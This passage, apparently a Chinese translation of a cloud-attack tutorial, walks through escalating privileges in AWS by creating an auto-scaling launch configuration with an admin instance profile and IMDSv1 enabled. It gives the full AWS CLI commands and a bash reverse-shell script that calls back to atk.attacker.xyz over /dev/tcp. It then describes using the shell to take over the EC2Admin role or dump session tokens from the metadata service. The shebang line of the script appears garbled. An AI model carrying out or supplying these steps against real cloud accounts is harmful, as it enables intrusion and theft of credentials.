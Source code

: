 攻击者使用的 AMI 映像必须能够被攻击者自己访问，有一些选择:

*   使用用户名和密码(或攻击者已知的密钥对)进行 SSH 访问的 AMI，附带允许 SSH 流量的公共 IP 地址和安全组
*   一个定制的公共 AMI，在启动时执行一个脚本/例程以连接到外部机器(即反向外壳)
*   启动时执行脚本/例程以使用用户数据配置连接到外部机器(即反向外壳)的 AMI
*   使用攻击者可以利用的 AWS 帐户的已配置安全组暴露具有易受攻击服务的 AMI

在这个阶段，目标是访问实例。

使用上面的输出，可以创建一个启动配置:

```
aws autoscaling create-launch-configuration --launch-configuration-name demo-LC --image-id ami-0f90b6b11936e1083 --instance-type t1.micro --iam-instance-profile demo-EC2Admin --metadata-options "HttpEndpoint=enabled,HttpTokens=optional" --associate-public-ip-address --user-data=file://reverse-shell.sh
```

*reverse-shell.sh* 文件包含启动时在 EC2 上执行的脚本:

```
#!/bin/bash/bin/bash -l > /dev/tcp/atk.attacker.xyz/443 0<&1 2>&1
```

该脚本只是使用 *Bash* 执行一个反向 shell，允许攻击者在不访问 AWS VPC 或 EC2 SSH 密钥的情况下访问启动的 EC2 实例。

一般来说，任何类型的反向外壳都可以使用，因为攻击者可以伪造启动脚本；更复杂的问题可能涉及混淆、更稳定的连接、复杂信标的下载、持久性和恶意软件。

现在已经创建了启动配置；该服务还需要一个自动缩放策略来启动/停止实例。

攻击者然后使用上面创建的启动配置 *evilLC* 来创建自动缩放组，以实际启动 EC2 实例:

```
aws autoscaling create-auto-scaling-group --auto-scaling-group-name demo-ASG --launch-configuration-name demo-LC --min-size 1 --max-size 1 --vpc-zone-identifier "subnet-aaaabbb"
```

选择的 VPC 子网应该至少允许从 EC2 到攻击者 IP 和端口的出口流量；通常情况下，出口安全组非常广泛，攻击者有太多的选择。

使用*AmazonElasticMapReduceFullAccess*中定义的 *ec2:DescribeSubnets* 权限，攻击者可以选择适当的子网 id。

创建自动缩放组后，AWS 会检查 ec2 的数量是否在定义的自动缩放策略的限制范围内。由于该扩展组中没有可用的 EC2，因此会创建一个新的 EC2，然后再衍生。

在实例的引导上，攻击者服务器会收到一个反向外壳:

![](img/c4ed7ad97255ef4160e79902a63c0c04.png)

从 EC2 反转外壳

有了这个 shell，现在可以在 EC2 实例中使用 *demo-EC2Admin* 角色，或者使用简单的 HTTP GET 请求将会话令牌转储到 IMDS。
